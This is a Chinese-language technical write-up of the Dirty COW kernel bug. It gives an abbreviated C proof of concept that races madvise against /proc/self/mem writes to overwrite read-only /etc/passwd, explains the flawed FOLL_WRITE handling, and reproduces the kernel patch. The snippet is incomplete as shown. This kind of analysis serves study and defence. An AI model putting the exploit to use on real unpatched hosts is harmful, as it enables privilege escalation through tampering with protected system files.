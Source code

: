 # Dirty COW Analysis
## POC

POC很简单：
* 主进程只读打开权限文件，并mmap到map地址，权限是READ & PRIVATE
* madvise进程不停释放map对应的内存页，madvise(map, 100, MADV\_DONNTNEED)
* procselfmem进程以O\_RDWR权限代开/proc/self/mem伪文件，试图写入任何内容到权限文件

```c
void * map;
void * madviseThread(void * arg) {
    while(1) {
    madvise(map, 100, MADV_DONNTNEED);
    }
}
void * procselfmemThread(void * arg) {
    int f = open("/proc/self/mem", O_RDWR);
    lseek(f, map, SEEK_SET);
    write(f, arg, strlen(arg));
}

int main() {
    f = open("/etc/passwd", O_RDONLY);
    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
    pthread_create(&pth1, NULL, madviseThread, "");
    pthread_create(&pth2, NULL, procselfmemThread, "anything");
    pthread_join(&pth1, NULL);
    pthread_join(&pth2, NULL);
    return 0;
}
```

## 核心代码分析

* 核心逻辑：
- write("/proc/self/mem", map, "anything")时，会触发核心的内存页管理系统。
  - 首次，缺页并调页(page in)
  - 第二次，页表没有写权限，去处FOLL\_WRITE请求标志(这是合理的：因为open成功了，说明可以写，页表的权限不可写也是自洽的，例如copy-on-write)。
  - 第三次，去除FOLL\_WRITE标志请求页面，成功请求。
* BUG逻辑：
  - 首次，缺页并调页(page in)
  - 第二次，页表没有写权限，去处FOLL\_WRITE请求标志(这是合理的：因为open成功了，说明可以写，页表的权限不可写也是自洽的，例如copy-on-write)。
  - madvise清空map的页表项
  - 第三次，去除FOLL\_WRITE(只读访问)，发现缺页，调页(page in)
  - 第四次，只读访问获取页面，并成功写入"anything"，置页表项标志为脏
  - 最后写回文件

## Patch

```c
diff --git a/include/linux/mm.h b/include/linux/mm.h
index e9caec6..ed85879 100644
--- a/include/linux/mm.h
+++ b/include/linux/mm.h
@@ -2232,6 +2232,7 @@ static inline struct page *follow_page(struct vm_area_struct *vma,
 #define FOLL_TRIED	0x800	/* a retry, previous pass started an IO */
 #define FOLL_MLOCK	0x1000	/* lock present pages */
 #define FOLL_REMOTE	0x2000	/* we are working on non-current tsk/mm */
+#define FOLL_COW	0x4000	/* internal GUP flag */
 
 typedef int (*pte_fn_t)(pte_t *pte, pgtable_t token, unsigned long addr,
 			void *data);
diff --git a/mm/gup.c b/mm/gup.c
index 96b2b2f..22cc22e 100644
--- a/mm/gup.c
+++ b/mm/gup.c
@@ -60,6 +60,16 @@ static int follow_pfn_pte(struct vm_area_struct *vma, unsigned long address,
 	return -EEXIST;
 }
 
+/*
+ * FOLL_FORCE can write to even unwritable pte's, but only
+ * after we've gone through a COW cycle and they are dirty.
+ */
+static inline bool can_follow_write_pte(pte_t pte, unsigned int flags)
+{
+	return pte_write(pte) ||
+		((flags & FOLL_FORCE) && (flags & FOLL_COW) && pte_dirty(pte));
+}
+
 static struct page *follow_page_pte(struct vm_area_struct *vma,
 		unsigned long address, pmd_t *pmd, unsigned int flags)
 {
@@ -95,7 +105,7 @@ retry:
 	}
 	if ((flags & FOLL_NUMA) && pte_protnone(pte))
 		goto no_page;
-	if ((flags & FOLL_WRITE) && !pte_write(pte)) {
+	if ((flags & FOLL_WRITE) && !can_follow_write_pte(pte, flags)) {
 		pte_unmap_unlock(ptep, ptl);
 		return NULL;
 	}
@@ -412,7 +422,7 @@ static int faultin_page(struct task_struct *tsk, struct vm_area_struct *vma,
 	 * reCOWed by userspace write).
 	 */
 	if ((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE))
-		*flags &= ~FOLL_WRITE;
+	        *flags |= FOLL_COW;
 	return 0;
 }
```
